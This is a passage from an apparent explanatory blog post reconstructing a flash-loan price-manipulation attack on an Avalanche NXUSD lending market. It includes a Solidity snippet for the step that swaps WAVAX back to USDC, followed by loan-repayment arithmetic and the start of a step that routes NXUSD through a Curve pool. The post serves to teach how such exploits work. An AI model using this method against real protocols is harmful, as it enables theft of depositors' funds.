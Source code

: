 Now that we've basically gotten away with pure robbery, we want to swap all our WAVAX tokens for USDC tokens, so that we can actually repay our loan later on. This also has the added effect of undoing the price manipulation that we caused in step 4.

<pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;"><span style="color:rgb(77, 77, 76); font-weight:400;">function <span style="color:rgb(66, 113, 174); font-weight:400;">executeOperation</span><span style="color:rgb(245, 135, 31); font-weight:400;">(
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
)</span> <span style="color:rgb(137, 89, 168); font-weight:400;">public</span> <span style="color:rgb(66, 113, 174); font-weight:400;">returns</span> <span style="color:rgb(245, 135, 31); font-weight:400;">(<span style="color:rgb(137, 89, 168); font-weight:400;">bool</span>)</span> </span>{
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
  
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Step 8: Swap all of our WAVAX back for USDC, dropping the price down</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// to normal again</span>
  path[<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>] = <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(wavax);
  path[<span style="color:rgb(245, 135, 31); font-weight:400;">1</span>] = <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(usdc);
  router.<span style="color:rgb(245, 135, 31); font-weight:400;">swapExactTokensForTokens</span>(
    wavax.<span style="color:rgb(245, 135, 31); font-weight:400;">balanceOf</span>(<span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>)),
    <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>,
    path,
    <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>),
    block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
  );
}</code></pre>

This gives us back a bit over 50,400,000 USDC, which is not enough to repay the loan. The loan itself has a premium of 25,000 USDC, so we actually need to repay 51,025,000 USDC to satisfy the flash loan requirements.

We're fine though. If we assume that we'll get 998,000 USDC from the 998,000 NXUSD, then we'll have ~51,373,000 USDC left after repaying the flash loan.

### Step 8: Swapping the NXUSD tokens for USDC.e tokens

This step is also somewhat complex. It's not very easy to convert the NXUSD tokens to USDC. Remember that there are two NXUSD liquidity pools that we saw in the "Why would you ever borrow money in crypto?" section: NXUSD-3CRV and WXT-NXUSD. We can choose either liquidity pool to swap against. The attacker chose NXUSD-3CRV, so lets do that.

3CRV in this case stands for the av3CRV token, which is itself an LP token. The "av" stands for Avalanche, and the 3CRV stands for Dai, USDC, and USDT. The 3CRV token is part of the Curve protocol. 

**[More information about the Curve protocol can be found here](https://curve.readthedocs.io/). It'll be too much content to go through in this blog post (that's already really long).**
